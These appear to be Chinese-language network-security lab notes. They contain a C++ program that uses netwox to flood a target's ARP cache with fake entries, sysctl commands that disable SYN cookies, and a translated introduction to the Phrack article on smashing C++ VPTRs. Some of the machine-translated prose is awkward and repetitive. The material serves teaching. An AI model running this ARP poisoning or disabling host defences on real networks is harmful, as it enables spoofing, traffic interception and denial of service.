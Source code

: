 现在我们知道了如何从命令行使用netwox工具，我们可以围绕它编写大量的功能代码。大多数现代语言如C、C++、Java、Perl、Ruby等都允许你执行随机文件。我们可以利用这些语言所提供的字符串操作能力和netwox工具来设计任意的自动攻击。考虑一下下面的程序。

```c++
#include <iostream>
using namespace std;
int main()
{
	char add[50];
	char ethadd[50];
	char arppoison[1000];
	for(int i=1;i<255;i++)
	{
	sprintf(add,"192.168.232.%d",i);
	sprintf(ethadd,"%x:%x:%x:%x:%x:%x",i,i,i,i,i,i);
	sprintf(arppoison,"netwox --ips \"192.168.232.131\"	--device \"Eth2\" --src-eth %s --src-ip %s",ethadd,add);
	system(arppoison);
	}
}
```

上面的代码试图在ARP缓存中投毒，该机器的IP地址为 IP地址为192.168.232.131的机器上的255个假值。由于以太网地址 是十六进制的，第20行构建了一个假的十六进制字符串，作为 以太网地址。这个程序将为IP地址192.168.232.1到192.168.232.255添加条目 到192.168.232.255在192.168.232.131的arp缓存中。
使用类似的策略可以设计出更复杂的攻击。

## linux命令

```bash
sysctl -q net.ipv4.tcp_max_syn_backlog
sysctl -w net.ipv4.tcp_syncookies=0
```

> `sysctl`  用于在内核运行时动态地修改内核的运行参数；
>
> > `-p`：从配置文件“/etc/sysctl.conf”加载内核参数设置；
> >
> > `-w`：当改变sysctl设置时使用此项；

- `net.ipv4.tcp_max_syn_backlog`：TCP syn 队列的最大长度, 是指定所能接受SYN同步包的最大客户端数量，即半连接上限；第一次握手的连接参数过大可能也会遭受syn flood攻击

- `net.ipv4.tcp_syncookies `：为1表示开启SYN cookies。当出现SYN等待队列溢出时，启用cookies来处理，可防范少量SYN攻击，默认为0，表示关闭

## Smashing C++ VPTRs

4、阅读Smashing C++ VPTRs这篇文章，阐述其原理。
http://www.phrack.org/issues.html?issue=56&id=8

[Phrack Magazine](phrack.org- Phrack Magazine .pdf)

#### 介绍

目前，一套广为人知的技术指导我们如何利用通常用C语言编写的程序中的缓冲区溢出。虽然C语言几乎无处不在，但我们看到许多程序也是用C++编写的。在大多数情况下，适用于C语言的技术在C++中也是可用的，然而，C++在缓冲区溢出方面可以为我们提供新的可能性，这主要是由于面向对象技术的使用。我们将使用C++ GNU编译器，在x86 Linux系统上分析其中的一种可能性。







[what-icmp-redirect-message]: https://www.ibm.com/support/pages/what-icmp-redirect-message
[syn-flood-ddos-attac]: https://www.cloudflare.com/en-gb/learning/ddos/syn-flood-ddos-attack/
[syn-flood]: https://www.imperva.com/learn/ddos/syn-flood/
[network-or-tcp-session-hijacking]: https://www.greycampus.com/opencampus/ethical-hacking/network-or-tcp-session-hijacking
[netwox-doc]: https://web.ecs.syr.edu/~wedu/Teaching/cis758/netw522/netwox-doc_html/html/examples.html
[netwox]: http://www.vulnerabilityassessment.co.uk/netwox.htm
